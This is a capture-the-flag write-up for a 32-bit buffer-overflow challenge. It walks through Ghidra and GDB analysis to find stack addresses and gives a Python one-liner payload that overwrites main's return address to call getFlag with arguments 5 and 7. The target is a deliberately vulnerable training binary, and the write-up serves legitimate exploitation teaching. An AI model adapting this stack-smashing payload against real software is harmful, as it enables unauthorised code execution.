


# Challenge

**Additional Information Needed** is very similar to [Echo](../Echo). It is an example of [return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming) (ROP) exploit crafting skill using buffer overflow in the program.

# Solution

### Disassembly

Using Ghidra we can see a very similar setup to **Echo**:
1. Use of `gets()` with a fixed-size buffer allocated on stack.
2. Function `getFlag` that prints flag.

 

The difference is that `getFlag()` does argument validation before printing the flag. Specifically, the arguments are two integer values, and for successful validation, their product must be 35. That means either 7 and 5, or -7 and -5.

Another difference is that this binary is compiled for 32-bit target. It means that function arguments are [passed using the stack](https://en.wikipedia.org/wiki/X86_calling_conventions#List_of_x86_calling_conventions). This is important, because we already know how to manipulate the stack. Therefore, we should be able to craft a payload that passes validation in `getFlag()`.

### Exploit

Using GDB to get address of main points of interest:
1. ESP at `main` entry -- to change return address with `getFlag` address.
2. Value of stack head (`*$esp`) before calling `gets` -- to know the buffer beginning address.
3. Addresses of `getFlag` arguments, when called from `main` ROP exploit (`set {int}$esp = getFlag` command below does that).

```
% gdb ./challenge.elf
<...>

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./challenge.elf...
(No debugging symbols found in ./challenge.elf)
(gdb) x/20i *main
   0x8049299 <main>:    push   %ebp
   0x804929a <main+1>:  mov    %esp,%ebp
   0x804929c <main+3>:  push   %ebx
   0x804929d <main+4>:  sub    $0x20,%esp
   0x80492a0 <main+7>:  call   0x8049100 <__x86.get_pc_thunk.bx>
   0x80492a5 <main+12>: add    $0x2d5b,%ebx
   0x80492ab <main+18>: call   0x80491c6 <buffer_init>
   0x80492b0 <main+23>: lea    -0x1fe4(%ebx),%eax
   0x80492b6 <main+29>: push   %eax
   0x80492b7 <main+30>: call   0x8049090 <puts@plt>
   0x80492bc <main+35>: add    $0x4,%esp
   0x80492bf <main+38>: lea    -0x1fbc(%ebx),%eax
   0x80492c5 <main+44>: push   %eax
   0x80492c6 <main+45>: call   0x8049090 <puts@plt>
   0x80492cb <main+50>: add    $0x4,%esp
   0x80492ce <main+53>: lea    -0x24(%ebp),%eax
   0x80492d1 <main+56>: push   %eax
   0x80492d2 <main+57>: call   0x8049060 <gets@plt>
   0x80492d7 <main+62>: add    $0x4,%esp
   0x80492da <main+65>: mov    $0x0,%eax
(gdb) br *main
Breakpoint 1 at 0x8049299
(gdb) br *main+57
Breakpoint 2 at 0x80492d2
(gdb) x/10i *getFlag
   0x8049214 <getFlag>: push   %ebp
   0x8049215 <getFlag+1>:       mov    %esp,%ebp
   0x8049217 <getFlag+3>:       push   %ebx
   0x8049218 <getFlag+4>:       sub    $0x34,%esp
   0x804921b <getFlag+7>:       call   0x8049100 <__x86.get_pc_thunk.bx>
   0x8049220 <getFlag+12>:      add    $0x2de0,%ebx
   0x8049226 <getFlag+18>:      mov    0x8(%ebp),%eax
   0x8049229 <getFlag+21>:      imul   0xc(%ebp),%eax
   0x804922d <getFlag+25>:      cmp    $0x23,%eax
   0x8049230 <getFlag+28>:      je     0x8049248 <getFlag+52>
(gdb) br *getFlag+21
Breakpoint 3 at 0x8049229
(gdb) r
<...>

Breakpoint 1, 0x08049299 in main ()
(gdb) p/x $esp
$1 = 0xffffd24c
(gdb) set {int}$esp = getFlag
(gdb) c
Continuing.
Welcome to this simple pwn challenge...
All you have to do is make a call to the `getFlag()` function. That's it!

Breakpoint 2, 0x080492d2 in main ()
(gdb) p/x $esp
$2 = 0xffffd220
(gdb) x/x $esp
0xffffd220:     0xffffd224
(gdb) c
Continuing.
asdfasdf (any text to return from gets())

Breakpoint 3, 0x08049229 in getFlag ()
(gdb) x/2i $pc
=> 0x8049229 <getFlag+21>:      imul   0xc(%ebp),%eax
   0x804922d <getFlag+25>:      cmp    $0x23,%eax
(gdb) p/x $ebp+0x8
$3 = 0xffffd254
(gdb) p/x $ebp+0xc
$4 = 0xffffd258
```

The exploit payload should look like this:
1. `0xffffd224` - buffer beginning
2. `0xffffd24c` - `main` return address, need to be replaced with `getFlag = 0x8049214`
3. `0xffffd254` - first argument for `getFlag`, for example 5
4. `0xffffd258` - second argument for `getFlag`, must be 7 to pass validation.

The layout is therefore as following: 40 random bytes + `0x8049214` little-endian + 4 random bytes + value `5` little-endian + value `7` little-endian.

## Final

```
% python3 -c "import sys, struct; sys.stdout.buffer.write(b'a' * 40 + struct.pack('<L', 0x8049214) + b'a' * 4 + struct.pack('<L', 5) + struct.pack('<L', 7))" | ./challenge.elf
Welcome to this simple pwn challenge...
All you have to do is make a call to the `getFlag()` function. That's it!
flag{myflag}

Segmentation fault (core dumped)
```